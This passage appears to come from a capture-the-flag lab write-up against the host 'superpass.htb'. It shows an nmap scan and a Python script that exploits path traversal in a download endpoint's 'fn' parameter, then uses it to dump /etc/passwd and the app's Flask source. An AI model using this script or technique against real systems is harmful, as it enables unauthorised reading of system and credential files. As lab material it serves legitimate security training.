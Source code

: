 [nmap](https://cn-sec.com/archives/tag/nmap) -sCV --min-rate=1000 -Pn 10.10.11.203


echo "10.10.11.203 superpass.htb" >> /etc/hosts

After scanning the directory, the download path was found, and an error message appeared when accessing, and the parameter was found to be fn

Read /etc/passwd and find that login permissions are required. Register an account and read it.

We can create a script in python to automate this process, only need to enter the file path
1.  `cat lfi.py`              `#!/usr/bin/python3``import requests, sys`
2.  `if len(sys.argv) < 2:`    `print(f"n33[0;37m[33[0;31m-33[0;37m] Uso: python3 {sys.argv[0]} n")`    `sys.exit(1)`
3.  `target = "http://superpass.htb"``session = requests.Session()`
4.  `data = {"username": "123", "password": "123", "submit": ""}``session.post(target + "/account/login", data=data)`
5.  `params = {"fn": ".." + sys.argv[1]}``request = session.get(target + "/download", params=params)`
6.  `print(request.text.strip())`

8.  `└─# python lfi.py /etc/passwd``root:x:0:0:root:/root:/bin/bash``daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin``bin:x:2:2:bin:/bin:/usr/sbin/nologin``sys:x:3:3:sys:/dev:/usr/sbin/nologin``sync:x:4:65534:sync:/bin:/bin/sync``games:x:5:60:games:/usr/games:/usr/sbin/nologin``man:x:6:12:man:/var/cache/man:/usr/sbin/nologin``lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin``mail:x:8:8:mail:/var/mail:/usr/sbin/nologin``news:x:9:9:news:/var/spool/news:/usr/sbin/nologin``uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin``proxy:x:13:13:proxy:/bin:/usr/sbin/nologin``www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin``backup:x:34:34:backup:/var/backups:/usr/sbin/nologin``list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin``irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin``gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin``nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin``_apt:x:100:65534::/nonexistent:/usr/sbin/nologin``systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin``systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin``messagebus:x:103:104::/nonexistent:/usr/sbin/nologin``systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin``pollinate:x:105:1::/var/cache/pollinate:/bin/false``sshd:x:106:65534::/run/sshd:/usr/sbin/nologin``usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin``corum:x:1000:1000:corum:/home/corum:/bin/bash``dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin``mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false``runner:x:1001:1001::/app/app-testing/:/bin/sh``edwards:x:1002:1002::/home/edwards:/bin/bash``dev_admin:x:1003:1003::/home/dev_admin:/bin/bash``_laurel:x:999:999::/var/log/laurel:/bin/false`

Pointing to the wrong file reads us the path of the running .py file

1.  `└─# python lfi.py /etc/passwds | grep app`

1.  `└─# python lfi.py /app/app/superpass/views/vault_views.py``import flask``import subprocess``from flask_login import login_required, current_user``from superpass.infrastructure.view_modifiers import response``import superpass.[service](https://cn-sec.com/archives/tag/service)s.password_service as password_service``from superpass.services.utility_service import get_random``from superpass.data.password import Password`

3.  `blueprint = flask.Blueprint('vault', __name__, template_folder='templates')`

5.  `@blueprint.route('/vault')``@response(template_file='vault/vault.html')``@login_required``def vault():`    `passwords = password_service.get_passwords_for_user(current_user.id)`    `print(f'{passwords=}')`    `return {'passwords': passwords}`
